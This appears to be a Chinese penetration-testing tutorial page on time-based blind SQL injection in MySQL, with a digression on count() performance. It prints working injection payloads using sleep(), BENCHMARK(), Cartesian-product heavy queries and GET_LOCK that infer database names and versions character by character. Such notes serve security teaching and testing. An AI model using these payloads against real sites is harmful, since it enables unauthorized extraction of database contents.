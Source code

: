 ![image-20210130173134947](https://cdn.jsdelivr.net/gh/cc-sql/imagbed/img/20210130173142.png)

### 基于时间的SQL 盲注延时注入

```mysql
If(ascii(substr(database(),1,1))>115,0,sleep(5))%23
--if 判断语句，条件为假，执行sleep
```

Ps：遇到以下这种利用sleep()延时注入语句

```mysql
select sleep(find_in_set(mid(@@version, 1, 1), '0,1,2,3,4,5,6,7,8,9,.'));
```

该语句意思是在0-9 之间找版本号的第一位。但是在我们实际渗透过程中，这种用法是不可取的，因为时间会有网速等其他因素的影响，所以会影响结果的判断。

**benchmark**

MySQL有一个内置的BENCHMARK()函数，可以测试某些特定操作的执行速度。参数可以是需要执行的次数和表达式。表达式可以是任何的标量表达式，比如返回值是标量的子查询或者函数。该函数可以很方便地测试某些特定操作的性能，比如通过测试可以发现，MD5()函数比SHAI()函数要快

```mysql
select benchmark(1000000,sha1(sha1(sha1(sha1("1")))));
```

```mysql
UNION SELECT IF(SUBSTRING(current,1,1)=CHAR(119),BENCHMARK(5000000,ENCODE(‘MSG’,’by 5 seconds’)),null) FROM (select database() as current) as tb1;
```

**笛卡儿积**

这种方法又叫做heavy query，可以通过选定一个大表来做笛卡儿积，但这种方式执行时间会几何倍数的提升，在站比较大的情况下会造成几何倍数的效果，实际利用起来非常不好用。

1.`count()`函数是用来统计表中记录的一个函数，返回匹配条件的行数。  
2.`count()`语法：  
（1）`count(*)`\---包括所有列，返回表中的记录数，相当于统计表的行数，在统计结果的时候，不会忽略列值为NULL的记录。  
（2）`count(1)`\---忽略所有列，1表示一个固定值，也可以用`count(2)`、`count(3)`代替，在统计结果的时候，不会忽略列值为`NULL`的记录。  
（3）`count(列名)`\---只包括列名指定列，返回指定列的记录数，在统计结果的时候，会忽略列值为NULL的记录（不包括空字符串和0），即列值为NULL的记录不统计在内。  
（4）`count(distinct 列名)`\---只包括列名指定列，返回指定列的不同值的记录数，在统计结果的时候，在统计结果的时候，会忽略列值为NULL的记录（不包括空字符串和0），即列值为NULL的记录不统计在内。  
3.`count(*)&count(1)&count(列名)`执行效率比较：  
（1）如果列为主键，`count(列名)`效率优于`count(1)`  
（2）如果列不为主键，`count(1)`效率优于`count(列名)`  
（3）如果表中存在主键，`count(主键列名)`效率最优  
（4）如果表中只有一列，则`count(*)`效率最优  
（5）如果表有多列，且不存在主键，则`count(1)`效率优于`count(*)`

```mysql
select count(*) from information_schema.columns A;
1 row in set (1.47 sec)
```

**get\_lock**

```mysql
SELECT GET_LOCK(key, timeout) FROM DUAL;
SELECT RELEASE_LOCK(key) FROM DUAL;
```
